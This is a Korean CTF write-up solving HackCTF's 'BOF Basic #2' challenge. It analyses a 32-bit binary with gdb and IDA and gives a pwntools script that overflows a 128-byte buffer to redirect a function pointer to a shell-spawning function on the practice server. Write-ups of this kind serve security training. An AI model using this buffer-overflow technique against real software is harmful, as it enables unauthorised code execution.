 ```yaml
---
title:  "[HackCTF] BOF Basic #2 풀이"
categories:
    - Pwnable
tags:
    - ctf.j0n9hyun.xyz
toc: true
published: true
---
```

[HackCTF] BOF Basic #2 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Apple M1|
|Architecture|ARM64|
|OS|Microsoft Windows 11 on ARM|
|Tools|- gdb-peda<br/>- Hex-Rays IDA 7.5|

# Problem
![](/assets/HCTF/bof_basic-1-0.png)
```
Get Input
Print 하아아아아아아아앙
```

요약: `bof_basic2`, `nc ctf.j0n9hyun.xyz 3001` 으로부터 flag 찾기

# File Format
![](/assets/HCTF/bof_basic-1-1.png)

![](/assets/HCTF/bof_basic-1-2.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled
|NX|ENABLED|
|PIE|disabled|
|RELRO|Partial|

- Can overwrite GOT

# Solution
![](/assets/HCTF/bof_basic-1-3.png)

우선 Function 정보를 `info func`를 통해 확인 함. system func call 이 이루어지므로 해당 func을 호출하는 것을 목표로 정함.

![](/assets/HCTF/bof_basic-1-4.png)

다만 main func를 보면 따로 `fgets` 외에 별다른 call 이 없음. `call eax`를 통해 진행되는 것 확인. `system@plt` 가 존재 하므로 어디선가는 확실히 call을 함.

![](/assets/HCTF/bof_basic-1-6.png)

IDA를 통해 정적 분석으로 이동. `void` 형 pointer 발견. 이 후 v5에 `sup` method를 넣음. 또한 메모리의경우 0x8C 를 서로 나눈 것으로 확인. `ebp`로부터 0x80 (128), 0xC (12) 만큼 서로 나눔. `fgets`가 133 까지 입력을 받으므로 `s`를 bof 시켜 `v5`에 들어갈 `sup` func 의 주소를 바꿀 수 있음.

`sup` 메서드는 단순 `puts`를 호출하는 메서드 임을 확인. `func` 목록 중 이제서야 `shell` 이라는 누가봐도 답 혹은 함정 일 것 같은 func 뒤늦게 발견. 판단 오류였다. 왜 정보를 놓쳤는가...다시 한번 다짐한다.

![](/assets/HCTF/bof_basic-1-7.png)

`system`을 call 하는 것 확인. 이제 `sup`의 주소를 `0x0804849b`로 자연스럽게 넘기면 `system@plt` call 가능.

# Exploit Scenario
```
# p32: 4 Byte packing
payload = "Z" * 128 + p32(0x0804849b)
```

# Exploit Code
```
from pwn import *
context.log_level = "DEBUG" # set log level to debug

p = remote("ctf.j0n9hyun.xyz", 3001)
payload = "Z" * 128 + p32(0x0804849b)

p.sendline(payload) # send payload to p
p.interactive() # Prevent closing shell
```

# Result
![](/assets/HCTF/bof_basic-1-5.png)